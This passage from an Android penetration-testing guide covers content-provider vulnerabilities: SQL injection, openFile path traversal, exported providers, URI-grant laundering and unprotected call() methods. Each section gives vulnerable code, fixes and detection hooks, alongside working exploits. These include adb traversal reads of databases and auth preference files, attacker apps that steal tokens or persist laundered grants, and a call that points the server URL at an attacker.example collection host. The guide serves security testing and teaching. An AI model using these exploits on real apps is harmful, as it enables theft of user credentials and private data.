  --sort "CASE WHEN (SELECT substr(token,1,1) FROM session)='e' THEN _id ELSE abs(-9223372036854775808) END"
```

The same three injections from a test application, which is what you use to prove reachability from a
normal UID:

```java
// Attacker app — proving projection injection from an ordinary UID
Uri u = Uri.parse("content://com.example.notes.provider/notes");
Cursor c = getContentResolver().query(u,
        new String[] { "(SELECT group_concat(name) FROM sqlite_master) AS leak" },
        null, null, null);
if (c != null && c.moveToFirst()) {
    Log.i("poc", "tables: " + c.getString(0));
    c.close();
}
```

And through Drozer, which runs as a genuine unprivileged app:

```
dz> run app.provider.query content://com.example.notes.provider/notes \
      --projection "* FROM sqlite_master WHERE 1=1 --"
dz> run app.provider.query content://com.example.notes.provider/notes \
      --selection "1=1"
dz> run scanner.provider.injection -a com.example.notes
dz> run scanner.provider.sqltables -a com.example.notes
```

> **Pentester's Note**
> `scanner.provider.injection` tests selection and projection. It historically did **not** test sort
> order. Run the sort-order test by hand. When you find injection only in `sortOrder`, expect the
> developer to argue it is not exploitable because "you can't see the output" — the
> `abs(-9223372036854775808)` oracle above is your answer, and it extracts data at roughly one
> character per eight requests with a binary search, which on local IPC is a few seconds per character.

#### Detection — static

```bash
# host — find raw SQL construction inside providers
jadx -d out/ target.apk
grep -rn "rawQuery\|execSQL" out/sources/ | grep -v "?"
grep -rn "TextUtils.join" out/sources/ | grep -i "projection\|selection\|sort"
grep -rn "SELECT .*\" *+\|\" *+ *selection\|\" *+ *sortOrder\|\" *+ *projection" out/sources/
```

The signature you are looking for is string concatenation anywhere near `query`'s parameters. The
counter-signature — evidence of safety — is `SQLiteQueryBuilder` with `setProjectionMap` and
`setStrict(true)`, or a hard-coded projection that ignores the caller's.

#### Detection — dynamic

```javascript
// frida -U -f com.example.notes -l scripts/hook-provider-sql.js
// Prints the exact SQL string every provider query compiles.
Java.perform(function () {
  var SQLiteDatabase = Java.use("android.database.sqlite.SQLiteDatabase");

  SQLiteDatabase.rawQuery.overload("java.lang.String", "[Ljava.lang.String;")
    .implementation = function (sql, args) {
      console.log("[rawQuery] " + sql);
      if (args !== null) { console.log("    args=" + JSON.stringify(args)); }
      return this.rawQuery(sql, args);
    };

  SQLiteDatabase.query.overload("boolean", "java.lang.String", "[Ljava.lang.String;",
      "java.lang.String", "[Ljava.lang.String;", "java.lang.String", "java.lang.String",
      "java.lang.String", "java.lang.String", "android.os.CancellationSignal")
    .implementation = function (d, table, cols, sel, selArgs, group, having, order, limit, cs) {
      console.log("[query] table=" + table
        + " cols=" + (cols === null ? "*" : cols.join(","))
        + " sel=" + sel + " order=" + order + " limit=" + limit);
      return this.query(d, table, cols, sel, selArgs, group, having, order, limit, cs);
    };
});
```

Send a benign query with a marker string in each of the three parameters, and read which ones appear
verbatim in the compiled SQL. Anything that appears verbatim is injectable.

#### The fix

```java
// FIXED — Provider
public class NotesProvider extends ContentProvider {

    private static final Map<String, String> PROJECTION_MAP = new HashMap<>();
    static {
        PROJECTION_MAP.put("_id",        "_id");
        PROJECTION_MAP.put("title",      "title");
        PROJECTION_MAP.put("created_at", "created_at");
        // 'body' deliberately absent: not exposed through this provider
    }

    private static final Set<String> ALLOWED_SORT = new HashSet<>(Arrays.asList(
            "_id ASC", "_id DESC", "created_at ASC", "created_at DESC"));

    @Override
    public Cursor query(Uri uri, String[] projection, String selection,
                        String[] selectionArgs, String sortOrder) {

        if (MATCHER.match(uri) != NOTES) {
            throw new IllegalArgumentException("Unsupported URI");
        }

        SQLiteQueryBuilder qb = new SQLiteQueryBuilder();
        qb.setTables("notes");
        qb.setProjectionMap(PROJECTION_MAP);
        qb.setStrict(true);                 // strict columns + strict grammar

        // Never let the caller choose the sort expression; map it through a whitelist.
        String order = ALLOWED_SORT.contains(sortOrder) ? sortOrder : "_id ASC";

        // Scope every query to the calling package's own rows.
        String scoped = "owner_package = ?";
        String[] scopedArgs = new String[] { getCallingPackageSafe() };

        // If the caller supplied a selection at all, AND it in — strict grammar will
        // reject anything that tries to escape the parentheses.
        if (!TextUtils.isEmpty(selection)) {
            scoped = scoped + " AND (" + selection + ")";
            scopedArgs = concat(scopedArgs, selectionArgs);
        }

        Cursor c = qb.query(dbHelper.getReadableDatabase(), projection,
                            scoped, scopedArgs, null, null, order);
        c.setNotificationUri(getContext().getContentResolver(), uri);
        return c;
    }

    private String getCallingPackageSafe() {
        String p = getCallingPackage();          // null if the caller could not be identified
        if (p == null) throw new SecurityException("Unidentified caller");
        return p;
    }
}
```

The safest version goes further and ignores the caller's `selection` entirely, deriving the `WHERE`
clause only from the URI. Flexibility for external callers is the vulnerability; internal callers can
use a private, non-exported code path.

#### Severity and business impact

| Factor | Assessment |
|---|---|
| Technical severity | **High to Critical.** Arbitrary read of every table in the provider's database, and with `execSQL`-based providers, arbitrary write. |
| Exploit complexity | Trivial. One `adb` command to demonstrate, thirty lines in an app to weaponise. |
| Preconditions | Provider exported, or protected only by a `normal` permission. |
| Business impact | Depends entirely on the database contents. A notes app leaks notes. A banking app's provider frequently contains session tokens, account numbers, transaction history and cached PII. If the same database holds an authentication token, this becomes account takeover. |
| Typical CVSS shape | Local attack vector, low complexity, no privileges, no user interaction, high confidentiality impact. |

Be honest in the report about the contents. "SQL injection in a content provider" reads as critical;
if the provider's database contains only a cache of publicly available product images, say so, and
grade it accordingly. Overstating findings loses more credibility than missing them.

### 5.2 Path traversal in `openFile`

#### The vulnerable code

```java
// VULNERABLE — Provider
public class DocsProvider extends ContentProvider {

    @Override
    public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
        // Intent: serve files from <files>/public/
        String name = uri.getLastPathSegment();
        File f = new File(getContext().getFilesDir() + "/public/" + name);
        return ParcelFileDescriptor.open(f, ParcelFileDescriptor.MODE_READ_ONLY);
    }
}
```

A slightly more "careful" version that is equally broken:

```java
// STILL VULNERABLE
String path = uri.getPath();                    // e.g. "/docs/report.pdf"
if (path.contains("..")) {                      // naive check
    throw new SecurityException("nope");
}
File f = new File(getContext().getFilesDir(), path);
```

#### Why a competent developer wrote this

The first version reads as correct: `getLastPathSegment()` returns "the last segment", so
surely it cannot contain a slash. It can — `Uri` does not enforce that, and a URI-encoded `%2F`
survives into the decoded segment. And a provider whose `UriMatcher` pattern is `docs/*` will
`NO_MATCH` on multiple segments, so the developer reasons that traversal cannot reach the code — but
they never actually consult the matcher before building the file path.

The second version shows a developer who has heard of path traversal and added the check they
remember. `contains("..")` fails against URL encoding (`%2e%2e%2f`), against double encoding, against
absolute paths (`/data/data/other/...` with no `..` at all), and against symbolic links.

#### The exploit

```bash
# adb shell — the simplest form: URL-encoded traversal to the app's own database
content read --uri "content://com.example.docs/docs/..%2F..%2Fdatabases%2Fapp.db" > /sdcard/app.db
```

```bash
# adb shell — reach shared_prefs, where session tokens usually live
content read --uri "content://com.example.docs/docs/..%2F..%2Fshared_prefs%2Fauth.xml"
```

```bash
# adb shell — absolute path, no ".." required at all
content read --uri "content://com.example.docs/docs/%2Fdata%2Fdata%2Fcom.example.docs%2Fdatabases%2Fapp.db"
```

From an attacking app, which is where you prove it properly:

```java
// Attacker app — arbitrary file read with the victim's UID
Uri u = Uri.parse("content://com.example.docs/docs/..%2F..%2Fshared_prefs%2Fauth.xml");
try (InputStream in = getContentResolver().openInputStream(u);
     ByteArrayOutputStream out = new ByteArrayOutputStream()) {
    byte[] buf = new byte[8192];
    int n;
    while ((n = in.read(buf)) > 0) out.write(buf, 0, n);
    Log.i("poc", out.toString("UTF-8"));
}
```

High-value targets, in rough priority order:

| Path | Contents |
|---|---|
| `shared_prefs/*.xml` | Session tokens, refresh tokens, user IDs, feature flags, "remember me" credentials |
| `databases/*.db` | The app's structured data; also `*.db-wal` and `*.db-journal`, which frequently contain rows deleted from the main file |
| `files/` | Cached API responses, downloaded documents, exported reports |
| `cache/` | HTTP caches — OkHttp's cache stores full responses including `Authorization` headers in some configurations |
| `no_backup/` | Often used for security material precisely because it is excluded from backup |
| `/data/data/<pkg>/files/instant-run/` | Debug artefacts on old builds |
| `../../../../proc/self/maps` | Confirms traversal reaches outside the sandbox at all |
| `/data/misc/keystore/` | Not readable even by the app UID, but worth one attempt to confirm the boundary |

> **Pentester's Note**
> Always try `*.db-wal` and `*.db-journal` alongside `*.db`. SQLite in WAL mode writes new pages to the
> `-wal` file and does not necessarily checkpoint them into the main database. A `DELETE FROM` executed
> minutes ago may still be fully recoverable from the WAL. This is also why you should copy all three
> files when acquiring a database, not just the `.db`.

The mode string matters too. If the provider passes the caller's `mode` through to
`ParcelFileDescriptor.open()`, you can request write access:

```bash
# adb shell — if writable, you can corrupt or replace app data
content write --uri "content://com.example.docs/docs/..%2F..%2Fshared_prefs%2Fauth.xml" < payload.xml
```

Arbitrary *write* into the victim's sandbox is materially worse than read: overwriting a
SharedPreferences file that stores a "user role" or "is_premium" flag is a direct privilege
escalation, and overwriting a `.so` or `.dex` the app loads at runtime can become code execution in
the victim's process.

#### Detection — static

```bash
# host
grep -rn "openFile\|openAssetFile" out/sources/
grep -rn "getLastPathSegment\|getPathSegments\|uri.getPath()" out/sources/ | grep -i "file\|path"
grep -rn "ParcelFileDescriptor.open" out/sources/
```

Then read each hit and answer one question: **is `getCanonicalPath()` called on the resulting file,
and is the result checked against a fixed base directory?** If not, it is traversable, regardless of
what string checks are present.

#### Detection — dynamic

```javascript
// frida -U -f com.example.docs -l scripts/hook-openfile.js
// Shows the URI requested and the absolute file finally opened.
Java.perform(function () {
  var CP = Java.use("android.content.ContentProvider");
  var File = Java.use("java.io.File");
  var PFD = Java.use("android.os.ParcelFileDescriptor");

  CP.openFile.overload("android.net.Uri", "java.lang.String")
    .implementation = function (uri, mode) {
      console.log("[openFile] uri=" + uri.toString() + " mode=" + mode);
      return this.openFile(uri, mode);
    };

  PFD.open.overload("java.io.File", "int").implementation = function (f, m) {
    console.log("[PFD.open] " + f.getAbsolutePath()
      + "  canonical=" + f.getCanonicalPath() + "  mode=" + m);
    return this.open(f, m);
  };
});
```

The pairing of the requested URI and the resulting canonical path is the whole proof. If you request
`docs/..%2F..%2Fdatabases%2Fapp.db` and the canonical path is
`/data/user/0/com.example.docs/databases/app.db`, the finding is demonstrated in one line of output.

#### The fix

```java
// FIXED — Provider
public class DocsProvider extends ContentProvider {

    private File baseDir;

    @Override
    public boolean onCreate() {
        baseDir = new File(getContext().getFilesDir(), "public");
        return true;
    }

    @Override
    public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {

        // 1. Only read mode is ever served.
        if (!"r".equals(mode)) {
            throw new SecurityException("Read-only provider");
        }

        // 2. The URI must match a known route with a single, restricted segment.
        if (MATCHER.match(uri) != DOC_BY_NAME) {
            throw new FileNotFoundException("Unsupported URI: " + uri);
        }

        // 3. The name is validated against a strict whitelist, not a blacklist.
        String name = uri.getLastPathSegment();
        if (name == null || !name.matches("[A-Za-z0-9_-]{1,64}\\.pdf")) {
            throw new FileNotFoundException("Bad name");
        }

        // 4. Canonicalise and verify containment — the only check that actually works.
        File target = new File(baseDir, name);
        String canonicalBase, canonicalTarget;
        try {
            canonicalBase   = baseDir.getCanonicalPath() + File.separator;
            canonicalTarget = target.getCanonicalPath();
        } catch (IOException e) {
            throw new FileNotFoundException("Cannot canonicalise");
        }
        if (!canonicalTarget.startsWith(canonicalBase)) {
            throw new SecurityException("Path escapes base directory");
        }

        return ParcelFileDescriptor.open(target, ParcelFileDescriptor.MODE_READ_ONLY);
    }
}
```

Step 4 is the one that matters. `getCanonicalPath()` resolves `..`, resolves symbolic links, and
normalises separators, so the containment check is made against the real filesystem location rather
than against a string the attacker controls. Steps 1–3 are defence in depth; step 4 is the control.

Note the trailing `File.separator` on `canonicalBase`. Without it, a sibling directory named
`publicdata` would pass `startsWith("/data/.../public")`. This is a real bug that appears in
otherwise-correct implementations.

The better fix, where it fits the use case, is to not write this code at all and use `FileProvider`,
which does the canonicalisation for you and has been reviewed by many more eyes.

#### Severity and business impact

| Factor | Assessment |
|---|---|
| Technical severity | **High** for read, **Critical** for write. |
| Exploit complexity | Trivial. |
| Preconditions | Exported provider that implements `openFile`, no path canonicalisation. |
| Business impact | Read gives every credential and every record the app holds locally. Write gives tampering with app state and, if the app loads code from its own storage, potential code execution as the victim. |
| Aggravating factor | The FD is opened with the victim's UID. Files that no other app could ever read — the entire private sandbox — become readable. This is a genuine sandbox bypass, not just a data leak. |

### 5.3 Exported providers leaking data with no injection required

Not every provider finding needs a payload. The most common finding of all is that the
provider works exactly as designed and should never have been reachable.

#### The vulnerable code

```xml
<!-- VULNERABLE — AndroidManifest.xml -->
<provider
    android:name=".sync.UserProvider"
    android:authorities="com.example.app.users"
    android:exported="true" />
```

```java
// The provider itself is perfectly written — no injection, parameterised, clean.
@Override
public Cursor query(Uri uri, String[] projection, String selection,
                    String[] selectionArgs, String sortOrder) {
    SQLiteQueryBuilder qb = new SQLiteQueryBuilder();
    qb.setTables("users");
    qb.setProjectionMap(PROJECTION_MAP);
    qb.setStrict(true);
    return qb.query(db, projection, selection, selectionArgs, null, null, sortOrder);
}
```

Every line of Java here is correct. The vulnerability is one XML attribute.

#### Why a competent developer wrote this

Three recurring reasons, all of which you will hear in the remediation meeting:

**"We have two apps and they share data."** The company ships a main app and a companion app. The
provider must be reachable from the companion, so `exported="true"` was set and it worked. Nobody
added a `signature` permission because permissions are fiddly and the deadline was Friday.

**"It's how the sample code does it."** Older AOSP samples and countless tutorials show
`exported="true"` because they predate API 17.

**"The provider is internal, the authority is obscure."** The authority is not secret. Any app can
enumerate every provider on the device, and `dumpsys package` prints them all.

#### The exploit

```bash
# adb shell — enumerate every provider the target declares
dumpsys package com.example.app | sed -n '/Provider Resolver Table/,/^$/p'
```

```bash
# adb shell — or, more completely, every provider on the device with its export status
dumpsys package providers
```

```bash
# adb shell — then just read it
content query --uri content://com.example.app.users/users
```

From Drozer, running as a normal app, which is the evidence you put in the report:

```
dz> run app.provider.info -a com.example.app
dz> run app.provider.finduri com.example.app
dz> run app.provider.query content://com.example.app.users/users --vertical
```

`app.provider.finduri` is worth highlighting: it extracts every string that looks like a `content://`
URI from the target's DEX and resources, which usually hands you the exact paths the developer uses
without any guessing.

#### Detection — static

```bash
# host — the definitive check, run against the MERGED manifest inside the APK
apktool d -f target.apk -o out/
grep -A6 "<provider" out/AndroidManifest.xml
```

Read each `<provider>` and classify it with this decision table:

| `exported` | Permission declared | `protectionLevel` | Verdict |
|---|---|---|---|
| `false` (or absent, `targetSdk>=17`) | any | any | Not reachable cross-UID. Move on. |
| `true` | none | — | **Finding.** Fully open. |
| `true` | yes | `normal` | **Finding.** Any app can hold it. |
| `true` | yes | `dangerous` | Weak finding. Requires a user prompt, but a malicious app will get it. |
| `true` | yes | `signature` | Acceptable, if the signing key is not shared with a less-trusted app. |
| `true` | read only, no write | — | Check write operations separately — `insert`/`update`/`delete` are unprotected. |

That last row is a real and frequently-missed case. `android:readPermission` without
`android:writePermission` means anybody can write to the provider even though nobody can read it. A
provider holding a "trusted device" list or a feature-flag table becomes a privilege escalation.

#### Detection — dynamic

```bash
# adb shell — the export status as PackageManager actually parsed it
dumpsys package com.example.app | grep -A3 -i "provider" | grep -i "exported\|permission"
```

Trust `dumpsys` over your decompiler here. `dumpsys` shows what `PackageManagerService` parsed,
which is the ground truth; `apktool` shows what `apktool` thinks the binary XML says, and crafted
manifests can make the two disagree.

#### The fix

```xml
<!-- FIXED — private provider, the default and correct choice -->
<provider
    android:name=".sync.UserProvider"
    android:authorities="com.example.app.users"
    android:exported="false" />
```

```xml
<!-- FIXED — when a companion app genuinely needs access, use a signature permission -->
<permission
    android:name="com.example.app.permission.READ_USERS"
    android:protectionLevel="signature" />

<provider
    android:name=".sync.UserProvider"
    android:authorities="com.example.app.users"
    android:exported="true"
    android:readPermission="com.example.app.permission.READ_USERS"
    android:writePermission="com.example.app.permission.WRITE_USERS" />
```

And, as defence in depth inside the provider, verify the caller rather than trusting the manifest
alone:

```java
// FIXED — belt and braces: verify the caller's signature at runtime
private void enforceTrustedCaller() {
    String pkg = getCallingPackage();
    if (pkg == null) throw new SecurityException("No caller identity");
    PackageManager pm = getContext().getPackageManager();
    if (pm.checkSignatures(getContext().getPackageName(), pkg)
            != PackageManager.SIGNATURE_MATCH) {
        throw new SecurityException("Caller " + pkg + " is not same-signature");
    }
}
```

> **Warning**
> `getCallingPackage()` returns non-null only during a Binder transaction and only when the caller
> could be identified. It returns the *first* package name for the calling UID, which is ambiguous when
> apps share a UID. For a hard security decision, prefer
> `getContext().getPackageManager().getPackagesForUid(Binder.getCallingUid())` and check all of them,
> or use `checkSignatures(int uid1, int uid2)` which operates on UIDs directly and avoids the
> ambiguity entirely.

#### Severity and business impact

| Factor | Assessment |
|---|---|
| Technical severity | **Directly proportional to the data.** Medium for a preferences cache, Critical for a table containing credentials or health records. |
| Exploit complexity | None. It is a single documented API call. |
| Business impact | This is the finding that produces regulatory exposure. Under GDPR or HIPAA, "any application on the device could read this table of patient identifiers" is a reportable data exposure, not a theoretical risk. |
| Reporting note | Always include the actual dumped rows (redacted) in the report. A screenshot of real user data returned by a one-line command is far more persuasive to a product owner than a description of the mechanism. |

### 5.4 URI-permission laundering via intent redirection

This is the subtlest class in the chapter and the one that distinguishes a senior report from a
scanner's output. It is a *confused deputy* problem.

> **Definition**
> A **confused deputy** attack occurs when a privileged component is tricked into using its privileges
> on behalf of a less-privileged caller. The deputy is not compromised; it does exactly what it is
> designed to do, but for the wrong principal.

#### The vulnerable code

The victim is a privileged application — say, a device-management or file-manager app — that exposes
an activity accepting an intent and returning a result:

```java
// VULNERABLE — Victim app, exported activity
public class FilePickerActivity extends Activity {

    @Override
    protected void onCreate(Bundle b) {
        super.onCreate(b);

        // The caller tells us which "next" intent to run. This is the bug.
        Intent forward = getIntent().getParcelableExtra("next_intent");
        if (forward != null) {
            startActivityForResult(forward, 1001);
            return;
        }
        showPicker();
    }

    @Override
    protected void onActivityResult(int req, int res, Intent data) {
        // We faithfully pass the result back to whoever started us.
        setResult(res, data);
        finish();
    }
}
```

Alternatively — and this is the version you meet more often — the victim exposes a provider with
`grantUriPermissions="true"` and an activity that sends a grant to a caller-specified component:

```java
// VULNERABLE — Victim app hands out a grant to a caller-named component
Intent share = new Intent(Intent.ACTION_SEND);
share.setData(contentUriForCurrentDocument);
share.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
share.setComponent(getIntent().getParcelableExtra("target_component"));  // attacker-controlled
startActivity(share);
```

#### Why a competent developer wrote this

Intent forwarding is an ordinary, useful pattern. "Let the caller tell me where to go next" is how
deep-link routers, notification trampolines, OAuth redirect handlers and "share to" flows are built.
The developer is thinking about *composition*, not about the fact that a `Parcelable` extra of type
`Intent` is a fully attacker-authored object carrying an arbitrary component, arbitrary data URI and
arbitrary flags.

The grant case is even more natural: "share the current document with whichever app the user picked".
The developer just forgot that the "user picked" part came from an intent extra rather than from a
chooser.

#### The exploit

The attack chain, drawn out:



Step 4 is the whole attack. When an activity calls `setResult()` with an `Intent` carrying
`FLAG_GRANT_READ_URI_PERMISSION` and a `content://` data URI, `ActivityManagerService` grants the
*calling* activity's package read access to that URI. The victim app is the one with the right to
read the privileged provider; by passing the result through, it converts its own authority into a
grant for the attacker.

The attacking code:

```java
// Attacker app — laundering a URI grant through a forwarding activity
Intent inner = new Intent(Intent.ACTION_GET_CONTENT);
inner.setType("*/*");
// Or, when the target URI is already known, aim straight at it:
inner.setComponent(new ComponentName(
        "com.privileged.app", "com.privileged.app.ExportActivity"));
inner.setData(Uri.parse("content://com.privileged.app.files/secret/1"));
inner.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION
             | Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
             | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION);

Intent outer = new Intent();
outer.setComponent(new ComponentName(
        "com.victim.app", "com.victim.app.FilePickerActivity"));
outer.putExtra("next_intent", inner);
startActivityForResult(outer, 7001);
```

```java
// Attacker app — collect the laundered grant and make it permanent
@Override
protected void onActivityResult(int req, int res, Intent data) {
    if (data == null || data.getData() == null) return;
    Uri u = data.getData();

    // Persist it so it survives a reboot and outlives the granting task.
    try {
        getContentResolver().takePersistableUriPermission(
                u, Intent.FLAG_GRANT_READ_URI_PERMISSION);
    } catch (SecurityException ignored) { /* not persistable, still usable now */ }

    try (InputStream in = getContentResolver().openInputStream(u)) {
        // ... exfiltrate ...
    } catch (IOException ignored) { }
}
```

The command-line demonstration of the primitive, which is useful for showing the mechanism even
though `adb shell` is privileged:

```bash
# adb shell — fire a nested intent through a forwarding activity
am start -n com.victim.app/.FilePickerActivity \
  --grant-read-uri-permission \
  -e next_intent_uri "intent:#Intent;component=com.privileged.app/.ExportActivity;S.path=/secret/1;end"
```

> **Pentester's Note**
> The `FLAG_GRANT_PREFIX_URI_PERMISSION` in the payload above is the detail that turns a
> single-document leak into a bulk one. If the victim's grant machinery honours it, a grant on
> `content://provider/secret/1` becomes a grant on everything beneath `content://provider/secret/`.
> Always add it to the payload and then test whether sibling paths are readable — it costs nothing and
> occasionally multiplies the impact by a thousand.

#### Where to look for the deputy

Grant laundering needs three ingredients, and finding all three is your search strategy:

| Ingredient | How to find it |
|---|---|
| A provider worth stealing from, with `grantUriPermissions="true"` | `grep -n "grantUriPermissions" AndroidManifest.xml` across every app on the device, not just your target |
| A component that accepts an `Intent` from an extra and starts it | `grep -rn "getParcelableExtra" out/sources/ \| grep -i intent`, then check each for `startActivity`/`startService`/`sendBroadcast` |
| A path for the result or the grant to return to the attacker | `setResult`, `PendingIntent.send`, or an explicit `startActivity` at an attacker-named component |

The middle row is the highest-value grep in this entire chapter. `getParcelableExtra(...)` returning
an `Intent` that is subsequently started is *intent redirection*, and it is a vulnerability class in
its own right independent of URI grants — see [26-Intent](../26-Intent/README.md) and
[30-Activities](../30-Activities/README.md).

#### Detection — dynamic

```javascript
// frida -U -f com.victim.app -l scripts/hook-grant-laundering.js
// Flags any Intent that is both taken from an extra and then started.
Java.perform(function () {
  var Intent = Java.use("android.content.Intent");
  var Activity = Java.use("android.app.Activity");

  var tainted = {};   // identityHashCode -> true

  Intent.getParcelableExtra.overload("java.lang.String")
    .implementation = function (name) {
      var v = this.getParcelableExtra(name);
      if (v !== null && v.$className === "android.content.Intent") {
        tainted[Java.cast(v, Intent).hashCode()] = name;
        console.log("[taint] Intent read from extra '" + name + "': " + v.toString());
      }
      return v;
    };

  Activity.startActivity.overload("android.content.Intent")
    .implementation = function (i) {
      var h = i.hashCode();
      if (tainted[h]) {
        console.log("[!!] REDIRECTION: intent from extra '" + tainted[h]
          + "' is being started: " + i.toString()
          + "  flags=0x" + i.getFlags().toString(16));
      }
      return this.startActivity(i);
    };

  Activity.setResult.overload("int", "android.content.Intent")
    .implementation = function (code, data) {
      if (data !== null) {
        var f = data.getFlags();
        if ((f & 0x00000003) !== 0) {   // READ or WRITE grant flags
          console.log("[!!] setResult carries URI grant flags 0x" + f.toString(16)
            + " data=" + data.getDataString());
        }
      }
      return this.setResult(code, data);
    };
});
```

#### The fix

```java
// FIXED — never start an Intent that came from outside without constraining it
@Override
protected void onCreate(Bundle b) {
    super.onCreate(b);
    Intent forward = getIntent().getParcelableExtra("next_intent");
    if (forward != null) {
        // 1. Strip every grant and every dangerous flag the caller may have set.
        forward.removeFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION
                | Intent.FLAG_GRANT_WRITE_URI_PERMISSION
                | Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
                | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION);

        // 2. Constrain the destination to this application only.
        ComponentName cn = forward.resolveActivity(getPackageManager());
        if (cn == null || !getPackageName().equals(cn.getPackageName())) {
            Log.w(TAG, "Refusing to forward intent outside this package: " + cn);
            finish();
            return;
        }

        // 3. Optionally, whitelist the exact set of allowed destinations.
        if (!ALLOWED_FORWARD_TARGETS.contains(cn.getClassName())) {
            finish();
            return;
        }

        startActivityForResult(forward, 1001);
        return;
    }
    showPicker();
}
```

And for the result path:

```java
// FIXED — do not pass an untrusted result Intent straight back to the caller
@Override
protected void onActivityResult(int req, int res, Intent data) {
    Intent clean = new Intent();
    if (data != null && data.getData() != null && isOurOwnAuthority(data.getData())) {
        clean.setData(data.getData());
        clean.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
    }
    setResult(res, clean);
    finish();
}
```

The general rule, worth stating explicitly in any report: **an intent that arrived from outside the
application must never be started, and must never be returned, without having its component
constrained and its grant flags cleared.**

#### Severity and business impact

| Factor | Assessment |
|---|---|
| Technical severity | **High.** It is a privilege escalation, not just a data leak: the attacker gains access it could not obtain directly. |
| Exploit complexity | Moderate. Requires finding the deputy and knowing a target URI. |
| Preconditions | An exported forwarding component in an app that holds access the attacker lacks. |
| Business impact | The impact is the *victim deputy's* privilege, which is frequently much higher than the target app's own. A grant-laundering chain through a device-management app or a system-signed component can reach data no third-party app is ever supposed to touch. |
| Reporting note | Report this against the app containing the deputy, not the app containing the data. The deputy is where the fix goes, and developers of the data-holding app will (correctly) say their provider behaved as designed. |

### 5.5 `call()` as an unprotected RPC entry point

#### The vulnerable code

```java
// VULNERABLE — Provider
@Override
public Bundle call(String method, String arg, Bundle extras) {
    Bundle out = new Bundle();
    switch (method) {
        case "getAuthToken":
            out.putString("token", prefs.getString("access_token", null));
            return out;
        case "setServerUrl":
            prefs.edit().putString("server", arg).apply();
            return out;
        case "enableDebug":
            BuildConfig.DEBUG_OVERRIDE = "1".equals(arg);
            return out;
        case "execSql":
            db.execSQL(arg);
            return out;
        case "wipe":
            db.execSQL("DELETE FROM notes");
            return out;
    }
    return null;
}
```

#### Why a competent developer wrote this

`call()` is genuinely convenient. The provider already exists; adding a method to it costs nothing
compared with defining an AIDL interface and a bound service. The developer uses it as a private
back-channel between their own app and their own widget, or between the app and its instrumentation
tests. `execSql` and `enableDebug` are debugging affordances that were supposed to be removed before
release. `getAuthToken` exists because the companion app needs the token and this was the shortest
path.

Critically, `call()` **does not appear in any manifest**. There is no `<intent-filter>`, no path, no
declared method list. A reviewer reading the manifest sees a provider; they have no way to know it
exposes five RPC methods unless they read the code. That invisibility is why this class survives code
review.

#### The exploit

```bash
# adb shell — the direct call
content call --uri content://com.example.notes.provider \
  --method getAuthToken
```

```bash
# adb shell — with an argument
content call --uri content://com.example.notes.provider \
  --method setServerUrl --arg "https://attacker.example/collect"
```

```bash
# adb shell — with extras of assorted types
content call --uri content://com.example.notes.provider \
  --method execSql --arg "UPDATE users SET role='admin' WHERE _id=1" \
  --extra key:s:value --extra num:i:42 --extra flag:b:true
```

From an attacking app:

```java
// Attacker app — the whole exploit
Bundle r = getContentResolver().call(
        Uri.parse("content://com.example.notes.provider"),
        "getAuthToken", null, null);
Log.i("poc", "token = " + (r == null ? "null" : r.getString("token")));
```

The hard part is not calling `call()`; it is **discovering the method names**, because they are not
declared anywhere. Four techniques, in order of reliability:

**1. Read the switch statement in JADX.** This is the definitive answer when you have the APK.

```bash
# host
jadx -d out/ target.apk
grep -rn -A40 "public Bundle call" out/sources/
```

**2. Pull method-name strings from the DEX.** When the code is obfuscated, the *strings* usually
survive, because they are compared against at runtime:

```bash
# host
strings -a classes.dex | grep -E "^(get|set|is|do|run|exec|enable|disable|wipe|clear|sync|refresh|auth|token|debug)[A-Za-z]*$" | sort -u
```

**3. Hook `call()` and use the app normally.** The app's own components call these methods; watch
them go by.

```javascript
// frida -U -f com.example.notes -l call-watch.js
Java.perform(function () {
  var CP = Java.use("android.content.ContentProvider");
  CP.call.overload("java.lang.String", "java.lang.String", "android.os.Bundle")
    .implementation = function (m, a, e) {
      console.log("[call] method=" + m + " arg=" + a + " extras=" + (e ? e.toString() : "null"));
      var r = this.call(m, a, e);
      console.log("    -> " + (r ? r.toString() : "null"));
      return r;
    };
  CP.call.overload("java.lang.String", "java.lang.String", "java.lang.String", "android.os.Bundle")
    .implementation = function (auth, m, a, e) {
      console.log("[call] auth=" + auth + " method=" + m + " arg=" + a);
      var r = this.call(auth, m, a, e);
      console.log("    -> " + (r ? r.toString() : "null"));
      return r;
    };
});
```

**4. Brute force with a wordlist.** The response distinguishes handled from unhandled methods: an
unhandled method typically returns `null`, a handled one returns a `Bundle` (possibly empty) or
throws. The script [`scripts/provider-call-fuzz.py`](scripts/provider-call-fuzz.py) does this.

#### Detection — static

```bash
# host — the single most valuable grep for this class
grep -rn "public Bundle call" out/sources/
grep -rn "\.call(" out/sources/ | grep -i "contentresolver\|resolver"
```

Every provider that overrides `call()` deserves a manual read, in full, every time. There is no
shortcut and no scanner that does this well, because the method names carry all the meaning and the
scanner does not know what `"doTheThing"` does.

#### The fix

```java
// FIXED — call() with explicit authorisation and a closed method set
@Override
public Bundle call(@NonNull String method, @Nullable String arg, @Nullable Bundle extras) {

    // 1. Authorise the caller explicitly. There is no framework check here.
    enforceSameSignatureCaller();

    // 2. Never expose debugging or SQL-execution methods in a release build.
    switch (method) {
        case "getPublicConfig":
            Bundle out = new Bundle();
            out.putString("api_version", "3");
            return out;

        // 3. Every remaining method is deliberately absent. No default pass-through.
        default:
            throw new IllegalArgumentException("Unsupported method: " + method);
    }
}

private void enforceSameSignatureCaller() {
    int uid = Binder.getCallingUid();
    if (uid == Process.myUid()) return;                 // ourselves
    Context ctx = getContext();
    if (ctx.getPackageManager().checkSignatures(Process.myUid(), uid)
            != PackageManager.SIGNATURE_MATCH) {
        throw new SecurityException("Caller uid " + uid + " is not same-signature");
    }
}
```

Three points about that fix.

The authorisation check is written by hand because the framework provides none. Use
`Binder.getCallingUid()` rather than `getCallingPackage()` — the UID is what the kernel authenticated
and cannot be spoofed, whereas a package name is a lookup that can be ambiguous.

`throw` rather than `return null` on an unknown method. Returning null silently means a fuzzer cannot
